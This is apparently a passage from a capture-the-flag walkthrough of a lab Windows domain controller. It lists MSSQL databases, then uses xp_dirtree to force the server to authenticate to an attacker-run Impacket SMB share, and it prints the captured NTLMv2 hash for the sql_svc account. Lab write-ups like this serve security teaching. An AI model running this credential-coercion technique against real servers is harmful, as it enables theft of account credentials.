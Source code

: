 Let's take look at the database's structure. Since it's just a "mock" instance we do not expect any useful data here, but it's still worth to check.

```bash
SQL> SELECT name FROM master.sys.databases;
name

--------------------------------------------------------------------------------------------------------------------------------

master

tempdb

model

msdb

SQL>
```

There were just 4 databases and none of them contained any useful information. Most of it was just blank. We can try to use those credentials against `SMB` or `WINRM`, but everything fails. 

## Capturing NTLMv2 hash

What we can do now is to try to steal a `NTLMv2` hash. Since we can execute SQL commands on the DC, we could try to fetch a remote resource and force the database to use `NTLMv2` authentication so we can capture the hash.

We can user following command to try to fetch the remote content.

```sql
exec master.dbo.xp_dirtree '\\10.10.14.88\smb'
```

We can see that it indeed worked and we successfuly captured the `NTLMv2` hash:

```bash
➜  Escape python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support smb .
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.202,52565)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:4ec19fdc5c4ba3ab5ea3774187b5f385:0101000000000000807a669c709dd901cc7f5af4f95c760f0000000001001000500058006e005200690043004100740003001000500058006e0052006900430041007400020010006d0074006100740058004b0069005800040010006d0074006100740058004b006900580007000800807a669c709dd90106000400020000000800300030000000000000000000000000300000115adc3d0fc18217cf60cf08c80ea3442c0cc5e81825de469ed7f9eb469f94200a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00380038000000000000000000
[*] Closing down connection (10.10.11.202,52565)
[*] Remaining connections []
```

